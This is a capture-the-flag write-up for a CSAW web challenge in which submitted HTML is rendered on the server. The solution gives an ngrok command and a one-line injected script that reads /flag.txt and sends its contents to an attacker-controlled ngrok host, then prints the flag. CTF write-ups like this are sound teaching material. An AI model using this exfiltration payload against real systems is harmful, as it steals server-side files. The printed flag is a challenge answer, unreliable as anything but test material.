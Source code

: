 # Validation
Now you have to do your homework!

When you submit a homework assignment, the submission will be validated on the server. What this means, is that your homework submission will be rendered in a webpage on the server! Some nasty things can happen here......

This challange requires you to send the flag to a public IP address (one that you control).

The flag is at /flag.txt, but it can only be accesed by the server itself!

[web.chal.csaw.io:10105](http://web.chal.csaw.io:10105)
## Solution
Since we can write HTML, we can write JavaScript. We also need a public IP address, and we can use a tool like [ngrok](https://ngrok.com/) to view http requests.
```bash
ngrok http 0
```
Running this command will output something like `Forwarding http://XXXXXXXX.ngrok.io -> localhost:0`. We can use the specific domain in our script.
```html
<script>fetch("/flag.txt").then(r => r.text()).then(t => fetch("http://XXXXXXXX.ngrok.io/" + t));</script>
```
The flag will appear in the request log of ngrok.
### Flag
`flag{Validation_feels_good_doesnt_it}`
